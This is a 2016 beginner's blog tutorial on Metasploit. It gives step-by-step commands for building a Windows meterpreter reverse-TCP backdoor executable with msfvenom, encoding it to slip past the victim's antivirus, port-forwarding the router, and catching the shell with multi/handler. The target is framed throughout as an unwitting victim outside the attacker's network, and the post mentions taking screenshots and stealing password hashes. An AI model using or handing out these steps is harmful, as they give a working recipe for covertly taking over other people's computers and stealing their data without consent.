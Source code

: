 ```yaml
---
layout:     post
comments:   true
title:      "Beginner's Guide to Metasploit"
subtitle:   "Linux, not Windows"
date:       2016-03-27 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-06.png"
---
```

Due to popular request, I'm going to teach Metasploit.

**Metasploit** is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.

It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.

This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.

## Installing

If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type **"msfconsole"** to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click [**Here**](http://www.darkoperator.com/installing-metasploit-in-ubunt/)

## Getting Started

1\. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. ![](/img/BeginnersGuideToMetasploit/ifconfig.png) 2\. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router). ![](/img/BeginnersGuideToMetasploit/verizonlogin.png) 3\. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”. ![](/img/BeginnersGuideToMetasploit/firewallportfor.png) 4\. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 5\. In your terminal, we will make our payload. Type:

    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe

Let’s break this down. **MSFvenom** is the payload creation script (it was originally msfpayload). **–P** is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a **windows/meterpreter/reverse_tcp** one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. **–E x86/shikata_ga_nai** is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. **–I 5** means we encode it 5 times. **–B ‘x/00’** has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444\. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps). 6\. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this: ![](/img/BeginnersGuideToMetasploit/msfcli.png) 7\. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type

    msf > use exploit/multi/handler

8\. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:

    msf exploit(handler) > set LHOST=[your LOCAL IP here]

9\. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.

<pre>**msf exploit(handler) >**set LPORT=4444</pre>

10\. This establishes the port. Now type:

<pre>**msf exploit(handler) >**show options</pre>

11\. Everything should be set and in place. Now type run:

    msf exploit(handler) >run
    12\. You will see something like:
    [*]Started reverse handler on 192.168.x.x:4444
    [*]Starting the payload handler…

13\. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:

<pre>**meterpreter>**</pre>

14\. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:

    meterpreter> shell
    Process 2314 created
    Channel 1 created
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved.
    C:\Windows\System32>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer! You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list: [**Null Byte**](http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/)

Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors.

## I have set up a Contact Form in the **Contact** section of this site! Please do not hesistate to use it if you have any inquiries
